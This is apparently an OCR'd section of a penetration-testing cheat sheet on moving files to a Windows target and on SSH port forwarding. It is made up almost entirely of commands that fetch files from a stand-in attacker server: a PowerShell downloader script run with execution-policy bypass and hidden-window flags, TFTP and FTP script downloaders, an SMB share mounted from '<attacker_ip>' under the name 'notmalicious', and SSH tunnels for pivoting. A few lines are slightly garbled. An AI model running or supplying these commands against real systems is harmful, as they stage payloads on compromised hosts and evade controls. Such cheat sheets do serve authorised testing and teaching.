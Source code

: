     * Wget.ps1
``` powershell
echo $storageDir = $pwd >> wget.ps1
$webclient = New-Object System.Net.WebClient >> wget.ps1
# Download file from
$url = "http://<ip>/file_name" >> wget.ps1
# Save file as
$file = "file_name"
echo $webclient.DownloadFile($url,$file) >>wget.ps1
# execute the script as follows
powershell.exe -nop -ep bypass -nol -noni -f wget.ps1
```

* TFTP (UDP)
``` powershell
tftp -i <ip> get file_name
```

* SMB
``` powershell
# cmd.exe
net use Z: \\<attacker_ip>\share_name
# To access the drive
Z:
# PowerShell
New-PSDrive -Name "notmalicious" -PSProvider "FileSystem" -Root "\\attacker_ip\share_name"
# To access the drive
notmalicious:
```

* FTP
``` powershell
ftp <ip>
ftp>binary
ftp>get file_name

# One-liner downloader
# in cmd.exe do not use quotes in an echo command
echo open <ip> >> download.txt
echo anonymous >> download.txt
echo anon >> download.txt
echo binary >> download.txt
get file_name >> download.txt
bye >> download.txt
ftp -s:download.txt
```

## Port Forwarding
### Linux
* Local port forwarding
``` bash
ssh <gateway> -L <local_port_to_listen_to>:<remote_host>:<remote_port>
```
* Remote port forwarding
``` bash
ssh <gateway> -R <remote_port>:<local_host>:<local_port>
```
* Dynamic port forwarding
``` bash
ssh -D <local proxy port> -p <remote port> <target>
```
